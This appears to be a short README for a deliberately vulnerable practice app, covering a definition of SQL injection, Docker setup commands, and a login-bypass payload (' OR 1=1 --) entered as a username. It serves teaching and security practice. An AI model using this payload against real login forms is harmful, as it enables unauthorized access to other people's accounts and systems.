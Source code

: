 ### Description

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.

refers :  https://portswigger.net/web-security/sql-injection

### Setting Env

```bash
$ docker-compose -d up --build
$ bash run.sh
```
### Issue 

SQLi vulnerability allowing login bypass

### Expolit

In username : ``' OR 1=1 -- `` and submit.

